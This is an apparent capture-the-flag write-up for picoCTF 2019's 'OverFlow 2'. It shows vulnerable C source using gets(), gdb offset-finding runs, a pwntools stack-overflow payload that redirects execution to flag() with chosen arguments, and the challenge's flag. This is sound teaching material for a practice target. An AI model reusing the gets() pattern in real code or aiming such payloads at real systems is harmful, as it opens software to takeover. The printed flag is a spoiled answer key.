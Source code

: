 # OverFlow 2
250 points

### Description
*"Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source."*

### Solution
For this problem, I'm going to assume you know how function arguments, return address, etc., are layed out in the stack. If you aren't familiar with this, check out my walkthrough for [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md). Here's the source code for the program associated with this problem:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This problem is very similar to OverFlow 1, but this time the `flag` function has arguments. Remember, the stack for a function call looks like this:

![C generic function call stack layout.png](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/raw/C_generic_function_call_stack_layout.png)

Keep in mind, the "top" of the stack is the bottom of this picture. So, we will be able to overwrite the return address and the function arguments. We're going to use a trick with gdb to quickly figure out how many characters we need in order to overwrite the return address. We know we'll need at least 176 characters, since that's the size of `buf`. From there, we can just add characters in increments of 4 until we start overwriting the return address. I've spaced out these different attempts to make it more readable.
```bash
$ gdb vuln
(gdb) run <<< $(python -c "print('a'*(176+4))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+4))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Inferior 1 (process 229061) exited normally]


(gdb) run <<< $(python -c "print('a'*(176+8))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+8))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()


(gdb) run <<< $(python -c "print('a'*(176+12))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+12))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGILL, Illegal instruction.
0x08048700 in main ()


(gdb) run <<< $(python -c "print('a'*(176+16))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+16))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

There we go. We started overwriting the return address exactly after the 12th extra character. So, we need 12 characters between `buf` and the return address. Let's get that return address:
```bash
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
```

When `flag` is called, the process will expect a return address to be on the top of the stack, above (or below, depending how you look at it) the parameters for `flag`. Since this return won't be used until after the flag is printed out, we can just fill it with bogus characters.

Finally we have to put our parameters. We will use the `p32` function from [pwntools](http://docs.pwntools.com/en/latest/) to convert the parameters and the return address to the little-endian format that we need.
```
$ python -c "from pwn import *; print('a'*(176+12) + p32(0x080485e6) + 'aaaa' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaa�aaaaﾭ�
```

This will give you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{arg5_and_r3turn5e919413c}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
